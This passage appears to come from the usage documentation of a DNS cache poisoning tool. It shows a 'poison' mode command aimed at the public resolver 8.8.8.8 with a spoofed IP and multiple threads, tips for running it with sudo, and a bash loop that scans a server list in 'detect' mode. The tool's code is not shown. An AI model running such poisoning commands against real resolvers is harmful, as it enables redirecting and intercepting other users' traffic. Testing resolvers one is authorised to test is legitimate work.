 ### 3. Performance Testing

```bash
# High-performance testing
sudo python3 dns_cache_poison.py \
  --target example.com \
  --nameserver 8.8.8.8 \
  --spoofed-ip 192.168.1.1 \
  --mode poison \
  --threads 25 \
  --duration 600
```

## Troubleshooting

### Common Issues

1. **Permission Errors**
   ```bash
   # Solution: Run with sudo
   sudo python3 dns_cache_poison.py ...
   ```

2. **Network Connectivity**
   - Check DNS server accessibility
   - Verify network permissions
   - Check firewall settings

3. **Resource Constraints**
   - Reduce thread count
   - Decrease duration
   - Monitor system load

## Integration Examples

### 1. Automation Scripts

```bash
#!/bin/bash
# Example automation script
for server in $(cat dns_servers.txt); do
  sudo python3 dns_cache_poison.py \
    --target example.com \
    --nameserver $server \
    --spoofed-ip 192.168.1.1 \
    --mode detect \
    --output "results_${server}.json"
done
```

### 2. Continuous Monitoring
